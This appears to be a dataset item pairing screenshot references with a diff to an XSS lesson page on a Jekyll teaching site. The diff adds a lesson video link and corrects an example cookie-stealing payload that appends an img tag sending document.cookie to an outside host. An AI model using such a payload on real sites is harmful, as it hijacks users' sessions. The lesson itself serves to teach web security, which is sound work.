

Before and after one commit to defeo/aws, a Jekyll site: the page built from lessons/xss.md, in a window 1280 px wide and 900 px high, scrolled down 4039 px. Shown: the part 185-485 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced.

```diff
--- a/lessons/xss.md
+++ b/lessons/xss.md
@@ -2,6 +2,8 @@
 layout: lesson
 title: XSS
 subtitle: Cross Site Scripting
+video:
+  url: https://www.dropbox.com/s/192n55g6bxz03ez/xss.webm?dl=1
 ---
 
 <style>
@@ -228,7 +230,7 @@ placed on February 16, 2012. ...
 
    ~~~
    document.body.innerHTML +=
-     '<img src="http://httpbin.org/get?ck=' + document.cookies + '">';
+     '<img src="http://httpbin.org/get?ck=' + document.cookie + '">';
    ~~~
    {:.att}
 
```
